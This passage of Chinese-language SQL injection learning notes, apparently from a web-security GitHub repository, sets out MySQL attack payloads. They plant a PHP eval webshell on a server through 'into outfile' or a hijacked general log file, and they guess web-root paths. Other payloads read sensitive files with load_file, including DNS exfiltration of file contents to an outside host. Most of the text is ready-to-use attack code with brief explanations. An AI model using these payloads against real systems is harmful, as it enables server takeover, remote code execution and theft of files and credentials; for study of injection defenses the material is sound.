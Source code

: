 更多的思路：  
[seebug我的wafbypass之道](https://paper.seebug.org/218/)  

### Webshell
:racehorse: 將查詢結果放到文件中, 或者將一句話木馬放到系統上的php文件中。`into outfile`要求使用者必須能寫，檔案不能**已存在**，以及沒有`secure_file_priv`的限制  
```sql
1' or 1 union select 1,2,"<?php @eval($_POST['hi']);?>" into outfile 'C://xampp/htdocs/sqli/Less-9/muma.php'--+ // 絕對路徑
// 注意前面的語句必須用雙引號處理

// limit後注入
into outfile 'D:/1.php' lines terminiated/starting by 0x3c3f7068702070687069e666f28293b3f3e;
```  
熟悉各系統引擎的路徑有助於猜測...  
```php
// winserver IIS 下的 asp server
C:\inetpub\www\root\
// linux server 上 nginx
/usr/local/nginx/html, /home/www/root/default, /usr/share/nginx, /var/www/html
// limux 上 apache
/var/www/html, /var/www/html/htdocs
```  
或者從能輸出結果的頁面得到路徑...  
```sql
// @@basedir : sql 安裝路徑
// @@datadir : 數據庫安裝路徑
id=1' union select 1, @@basedir, @@datadir--+
```
e.g. @@basedir 我們得到```C:/xampp/mysql```的結果, 而網頁根目錄路徑便是```C:/xampp/htdocs/```，更多內容可以到[INFO-leak](https://github.com/shinmao/Web-Security-Learning/tree/master/INFO-leak)看**爆物理路徑**的部分  
:racehorse: General log  
前提一樣是對目錄**要有寫的權限**，general log有紀錄執行sql命令的功能  
通常是用在拿到了高的權限，卻無法寫shell  
```php
show variables like '%general%';
set global general_log=on;
set global general_log_file='/var/www/html/myshell.php';
```  
先確定系統中是否開啟紀錄sql指令的功能，將他開啟，然後修改寫入文件，注意要把原本`general_log_file`的位置記下來  
```php
select '<?php @eval($_POST[1])?>';
```  
若當前db用戶有寫的權限即能寫入成功，然後把`general_log_file`改回原本的文件，把`general_log`設回off  

### Read file  
上面的webshell相當於用`sql injection`寫檔，那當然也有讀檔的部分。  
```php
union select load_file( 文件名hex );

// DNS query
select load_file(concat('\\\\',hex((select load_file('want_to_read_file'))),'example.com\\file.txt'));
```  
這裡讀取文件也需要讀取權限，所以當前數據庫用戶要被允許讀取(通常都有)。上面我們`load_file`常常會用來讀取一些機敏文件，譬如`DB.php`。除了讀取權限，`select into outfile`,`select into dumpfile`,`select load_file()`這類函式都受到`secure_file_priv`影響，會在下面做討論...  
